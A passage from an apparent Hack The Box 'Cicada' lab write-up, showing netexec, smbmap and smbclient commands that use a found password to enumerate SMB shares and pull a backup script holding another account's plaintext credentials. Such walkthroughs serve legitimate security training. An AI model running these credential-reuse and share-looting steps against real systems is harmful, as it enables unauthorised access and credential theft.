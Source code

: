``` bash
netexec winrm 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

![netexec_winrm_david](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_winrm_david.png)

**Result:**  
WinRM is also disabled for this account.

---

### 3.6 Enumerating Shares for David

``` bash
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```

![netexec_david_shares](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_david_shares.png)

**Result:**  
David has access to the `DEV` share in addition to the previously seen shares.

---

### 3.7 Inspecting DEV Share

We recursively list the contents of the `DEV` share:

``` bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

![smbmap_david_DEV](GitHubv2/HackTheBox/EASY/Cicada/screenshots/smbmap_david_DEV.png)

**Finding:**  
A file named `Backup_script.ps1` is present.

---

### 3.8 Extracting Backup Script

We download and inspect the file:

``` bash
smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3' 
get "Backup_script.ps1" 
cat Backup_script.ps1
```

![smbclient_get_backup](GitHubv2/HackTheBox/EASY/Cicada/screenshots/smbclient_get_backup.png)

**Finding:**  
The script contains plaintext credentials for another account:

`User: emily.oscars Password: Q!3@Lp#M6b*7t*Vt`

---
